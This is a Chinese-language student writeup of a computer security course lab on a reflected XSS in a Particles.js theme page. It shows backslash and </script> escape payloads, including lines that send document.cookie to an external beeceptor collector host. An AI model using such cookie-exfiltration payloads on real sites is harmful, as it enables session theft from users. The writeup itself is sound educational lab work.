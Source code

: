 # 2022 Computer Security HW10 Writeup - Web

* [HW10 github (Writeup and Payload)](https://github.com/fdff87554/Computer-Security-2022/tree/main/homework/Homework-10)

## Particles.js - Lab
* 這題是一個 XSS 的 Example，雖然畫面中沒有輸入匡，但是可以從 url 發現我們選擇的 theme 會被帶入 url 中，而且可以看一下 source code，可以看到 config.value 會被直接帶入 script 中，所以我們可以利用這個特性來做 XSS。
* 攻擊的 Source code 區段為下，
    ```javascript=
    <script>
    url.value = location; config.value = 'bubble'; fetch('/bubble.json').then(r => r.json()).then(json => {
        particlesJS("particles-js", json)
    })
    </script>
    ```
* 那先來考慮如何建構 XSS，在輸入的過程中我們可以發現 server side 有過濾 `'`，因此如果要跳脫 `<script>` 內部的文字內容，我們可以利用 `\` 來做跳脫，會發生什麼事情是今天 Javascript 中的 `config.value = '\'; fetch('/\').thenj(r => ...` 這段的 `'; fetch(` 會因為前面的 `'` 被反斜跳脫而變成字串，直到 `fetch` 本身的單引號為止，都被視為 `config.value` 的字串。
    > ![web-lab01-xss-example-with-backslash](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/week-02/web-lab01-xss-example-with-backslash-1.png)
* 那要記得我們的資料會被同步在 `config.value='<input>'` 跟 `fetch('/<input>.json')` 這個區域，那我們已經知道到 `/` 之前的資料都會被反斜線變成字元了，因此可以想像一下在反斜線之前添加怎樣的字串來建構惡意的 payload。舉例來說 payload=`1;\` 可以讓 config.value 語句完全中斷，然後後面的部分我們可以直接隨便在串接起來。我們先嘗試建立一個合法的 JS 讓語句能回彈 alert()，payload=`1;alert(1);console.log({x://\`，可以看到 alert() 成功被觸發。
    > ![web-lab01-xss-example-with-backslash](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/week-02/web-lab01-xss-example-with-backslash-2.png)
    > ![web-lab01-xss-example-with-backslash-alert](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/week-02/web-lab01-xss-example-with-backslash-alert.png)
* 那今天我們的目標是去偷 cookie，一般來說可以用 `doument.cookie` 來取得，那我們試著把 cookie 混在一段 request 中丟出來取得，payload=`1;fetch("https://crazyfirelee.free.beeceptor.com?"+document.cookie);console.log({x://\`，可以看到我們的 cookie 成功被送出。**這邊要特別注意的是，在 url 中的 `+` 要用 `%2b` 代替**
    > ![web-lab01-xss-example-with-backslash-cookie](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/week-02/web-lab01-xss-example-with-backslash-cookie.png)
* 那這邊除了用 `\` 反斜線來跳脫以外，講師還有提到另一個 JS 的特性就是不管在哪裡，只要看到 `<script>` 就會視為 JS Tag，因此假設我們今天不用反斜線而是用 `</script>` 來閉合這段 JS，就可以直接從後面建構新的 JS 區段了。因此回到最一開始，如果我們利用 `</script>` 作為跳脫，可以看到剛剛的 JS 區段被截斷而後半部直接被遺棄。
    > ![web-lab01-xss-example-with-script](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/week-02/web-lab01-xss-example-with-script.png)
* 但這邊還沒有成功實作出怎麼利用 `</script>` 建構 payload，等之後有成功會補上。
    > 嘗試了一下 `</script><script>fetch("https://crazyfirelee.free.beeceptor.com?"+document.cookie);</script>` 會在 enter 之後直接送兩次 fetch 出來，但在 report 的時候不會觸發，還沒理解為什麼。


## Simple Note - Lab


## TodoList - HW

---
###### tags: `CyberSec` `Writeup` `2022`

<style>
.navbar-brand::after { content: " × Crazyfire Lee"; }
</style>